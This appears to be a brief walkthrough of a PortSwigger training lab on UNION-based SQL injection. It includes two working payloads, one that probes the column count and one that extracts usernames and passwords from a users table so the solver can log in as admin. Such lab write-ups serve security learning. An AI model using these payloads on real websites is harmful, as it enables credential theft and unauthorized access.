





[Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)
## Task
This lab contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables. To build such an attack, we need to combine some of the techniques we learned in previous labs.

There is another table in the database called `users` that contains `username` and `password` columns.

To solve the lab, perform a `UNION` SQL injection attack that will extract all usernames and passwords, and then use this information to log in as the admin user.
## Solution
Go to the site



Determine how many columns there are
```SQL
'+UNION+SELECT+NULL,NULL--
```



Do SQL-Injection
```SQL
'+UNION+SELECT+username,password+FROM+users--
```



Log in as admin





